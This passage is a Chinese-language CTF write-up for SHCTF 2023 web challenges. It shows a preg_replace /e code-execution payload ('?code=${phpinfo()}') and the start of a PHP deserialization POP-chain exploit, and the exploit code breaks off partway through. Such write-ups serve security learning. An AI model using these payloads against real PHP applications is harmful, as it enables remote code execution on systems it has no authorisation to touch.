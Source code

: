 ```yaml
---
title: SHCTF 2023 
description: web&misc wp
tags:
  - CTF
  - MISC
  - WEB
categories:
  - write up
cover: 'https://tuchuang.voooe.cn/images/2024/03/19/da01153133d54666a67b2c39f9bd04f5.png'
abbrlink: SHCTF2023
date: 2024-03-08 10:20:00
---
```

## web

### **[WEEK1]ezphp**

   prep_replace /e    命令执行



[深入研究 preg_replace \e 模式下的代码执行_preg_replace /e-CSDN 博客](https://blog.csdn.net/weixin_49656607/article/details/119833707)

[preg_replace 函数/e 模式下的代码执行 + 一道例题 - Hel10 - 博客园](https://www.cnblogs.com/HelloCTF/p/13184476.html#%E7%9C%8B%E4%B8%80%E9%81%93ctf%E9%A2%98-----bjdctf2020zjctf%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4)

[慎用 preg_replace 危险的/e 修饰符(一句话后门常用) - 稻禾盛夏 - 博客园](https://www.cnblogs.com/dhsx/p/4991983.html)

**payload：
GET:
?code=${phpinfo()}
POST:
pattern=.***

Ctrl+f 搜索 flag 即可

### **[WEEK1]ez_serialize**

反序列化 invoke wakeup get toString



[[CTF]PHP 反序列化总结_ctf php 反序列化-CSDN 博客](https://blog.csdn.net/solitudi/article/details/113588692)

[0x013 pop 链构造解释_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1R24y1r71C/?p=14&spm_id_from=333.1007.top_right_bar_window_history.content.click&vd_source=f7e76ebc6ca15fbb8c8dc4909fad4f40)

**exp：**

```php
<?php

class A{
  public $var_1='flag.php';
  
  public function __invoke(){
   include($this->var_1);
  }
}

class B{
  public $q;
  public function __wakeup()
{
  if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->q)) {
            echo "hacker";           
```
